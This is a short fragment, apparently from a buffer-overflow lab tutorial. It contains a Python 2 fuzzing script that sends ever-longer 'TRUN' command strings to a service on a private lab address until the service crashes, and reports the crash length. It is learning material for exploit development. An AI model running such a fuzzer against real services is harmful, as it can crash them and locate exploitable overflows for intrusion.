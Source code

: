 ```python
#!/bin/python

import sys
import socket
from time import sleep

buffer = 'A'*100
while True:
        try:
                 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                 s.connect(('192.168.40.135',9999))
                 
                 s.send(('TRUN / .:/' + buffer))
                 s.close()
                 sleep(1)
                 buffer = buffer + 'A'*100
        except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```
<img alt="" class="bg hc hd c" width="700" height="700" loading="lazy" role="presentation" src="https://i.ibb.co/kg1Mc0y/1Spiking.png">

